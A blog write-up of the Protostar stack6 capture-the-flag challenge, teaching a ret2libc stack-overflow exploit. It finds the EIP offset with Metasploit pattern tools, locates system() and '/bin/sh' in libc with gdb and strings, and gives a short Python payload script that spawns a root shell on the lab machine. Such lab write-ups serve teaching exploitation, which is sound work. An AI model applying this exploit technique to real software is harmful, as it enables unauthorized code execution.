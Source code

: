 ```yaml
---
title: "ROP: ret2libc Attack -Protostar6"
author: "Trevor saudi"
date: 2021-05-12T10:30:13.245Z
lastmod: 2022-05-24T14:32:01+03:00

description: ""

subtitle: "Bypassing stack pointer restrictions to gain arbitrary code execution"

image: "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png" 
images:
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/7.jpeg"


aliases:
    - "/rop-ret2libc-attack-protostar6-ab537d59b6a8"

---
```


#### Bypassing stack pointer restrictions to gain arbitrary code execution

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png#layoutTextWidth)


[_Protostar_](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/) _is a series of beginner binary exploitation challenges which showcases concepts like basic stack-based buffer overflows, bypassing stack protections and even performing format string attacks. I tried out these challenges as I have close to 0 experience with binary exploitation and wanted to learn some of it and it turned out fun. So let’s get to_ [_protostar6_](https://exploit.education/protostar/stack-six/) _and learn some ret2libc !_

**Source code analysis and some recon**

We are given the source code below to protostar6.c




As of previous challenges, our goal is get code execution on the target host which has the compiled binary of this source code. Some of the key things to understand here are:

*   **gets(buffer) :** The program will ask as for an input and store it an **buffer of size 64 bytes.** Gets is a vulnerable function in C that causes stack overflows
*   **ret** : __builtin_return_address(0) - This function checks the **current return address** on the stack and sets it to a variable ret
*   **if((ret &amp; 0xbf000000) == 0xbf000000) :** This check performs a **bitwise AND** operation with the **current address on the stack** with the hex value **0xbf000000** and then compares it with 0xbf000000. Essentially what this means is that, it checks if the first byte in the return address is equal to 0xbf, since the remaining bytes will be converted to 0 in the AND operation.`**Suppose our return address points to** 0xbfffff01, the check is performed as follows**  
Operation** |    **HEX**    |    **Binary**  
__________|___________|__________________________________________  

           0xbfffff01 = 10111111 11111111 11111111 00000001  
      **AND**  0xbf000000 = 10111111 00000000 00000000 00000000  
_________________________________________________________________             
The AND operation gives 0xbf000000. So any address beginning with 0xbf will cause the condition to return to true and exit the program`

*   **_exit(0) :** A system call to exit the function if the operation above gives us an address beginning with 0xbf

**Logic behind the non-executable stack protection**

In classic buffer overflows, our goal is usually to overwrite the instruction pointer / the return address with the address at the top of the stack where we put our shell code and get code execution.

But in this case, if we were to overwrite the return address with an address on the stack , the operation fails and the program exits. Let us see why using gdb

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png#layoutTextWidth)


Running the program and viewing how the addresses are mapped in memory we see something interesting. All addresses in the stack begin with 0xbf thus hijacking the control flow and pointing to the stack will fail

**ret2libc Exploit**

A ret2libc (return to libc, or return to the C library) attack is one in which the attacker does not require any shellcode to take control of a target, vulnerable process.

“ Every time you write a C program, you use one or the other of the inbuilt functions, like `printf`, `scanf`, `puts` etc. Have you wondered where the definitions of these functions lie? All the standard C functions have been compiled into a single file, named **the standard C library** or the `libc`.You can use the `ldd` command to find out which libc is being used by an application. ”

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png#layoutTextWidth)


We can leverage this technique by jumping to the return address of libc . libc has a syscall named `system` that we will use to execute ‘/bin/sh’ and gain shell

**Developing the exploit**

1.  We begin by finding the location of the EIP. Generate the crash pattern and supply in gdb`/usr/bin/msf-pattern_create -l 100  
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A`

*   Supply the pattern and note down the address in the EIP
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png#layoutTextWidth)


*   Let us get the offset of the pattern`/usr/bin/msf-pattern_offset -l 100 -q 0x37634136  
[*] Exact match at offset 80`

2. Finding the address of libc

*   As noted earlier this can be done using `info proc map` the location of the libc is at `/lib/libc-2.11.2.so` with address `0xb7e97000` . The address in this case does not start with 0xbf hence we can load it onto the stack bypassing the stack protection
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png#layoutTextWidth)


3. Finding the address of the `system` syscall
`(gdb) p system **&lt;--- p means print**  
$1 = {&lt;text variable, no debug info&gt;} 0xb7ecffb0 &lt;__libc_system&gt;  
(gdb)`

4. Finding the location of the ‘/bin/sh’ within libc
`root@protostar:/opt/protostar/bin# strings -a -t x /lib/libc-2.11.2.so | grep &#34;/bin/sh&#34;  
 11f3bf /bin/sh  

`

*   strings command lists all readable strings
*   a scans through the entire file
*   -t x will print the addresses in hex
*   grep locates the string we specify with ‘/bin/sh’

In summary our exploit will

*   fill up the padding using 80 characters to reach the EIP.
*   Overwrite the EIP using the `system` syscall address which gets loaded onto the stack.
*   Since the stack will return control flow to the program, we still want to be in control of the EIP so we can chain multiple function calls. We cause the EIP to segfault using an invalid address that will be loaded onto the stack.
*   Then we load the address of the location of the ‘/bin/sh’ which will be `the libc address + offset of ‘/bin/sh’` that we found above.
*   Now the next address on the stack will be pointing to the string `‘/bin/sh’ `which system executes as `system(‘/bin/sh’)` and gives a shell

**Putting together a python exploit script**

You could use pwntools for this but I will keep the walkthrough simple.
`import struct``## EIP OFFSET  
payload = &#34;A&#34;*80``## libc SYSTEM SYSCALL  
system = struct.pack(&#34;I&#34;,0xb7ecffb0)``## Ret address after system  
ret = &#34;\x90&#34; * 4``## libc /bin/sh  
shell = struct.pack(&#34;I&#34;,0xb7e97000+0x11f3bf)``print (payload + system+ret+shell)`

We run the exploit and concatenate with the `cat` command to open an stdin stream so we have access to the shell we get

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png#layoutTextWidth)


If this walkthrough is not enough, I recommend using other resources to understand the concept of ret2libc as it may not be easy to grasp on the first try.

Happy hacking :)

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/7.jpeg#layoutTextWidth)
